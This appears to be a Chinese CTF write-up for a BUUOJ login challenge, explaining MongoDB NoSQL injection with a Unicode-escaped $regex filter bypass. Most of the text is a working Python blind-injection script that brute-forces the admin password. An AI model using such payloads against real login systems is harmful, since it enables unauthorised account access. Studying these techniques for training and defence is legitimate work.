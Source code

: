 ###  wp

![image-20220528152802395](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220528152802395.png)



看到F12的nosql,然后搜了一下，就是nosql(非关系型数据库)，常见的考点就是mongo注入，当然这道题的考点也是这样的。



先来个永真式

![image-20220528153340371](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220528153340371.png)

根据提示利用unicode字符，所以利用编码绕过

![image-20220528153502459](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220528153502459.png)



这里应该使用nosql盲注

`{"msg":"登录了，但没完全登录"}`为真

`{"msg":"登录失败"}`为假



直接上脚本，这个脚本也比较独特，适合mongo盲注的脚本

```python
import requests
import string

password = ''
url = 'http://node4.buuoj.cn:26641/login.php'

# 盲注当知道了用户名后就可以用正则$regex来爆破密码
while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"^%s"}}""" % (
                        password + c)
            headers = {'Content-Type': 'application/json'}
            r = requests.post(url=url, headers=headers, data=json_payload)  # 简单发送 json

            # r = requests.post(url=url, data=post_payload)
            if '但没完全登录' in r.content.decode():
                password += c
                print(password)
```
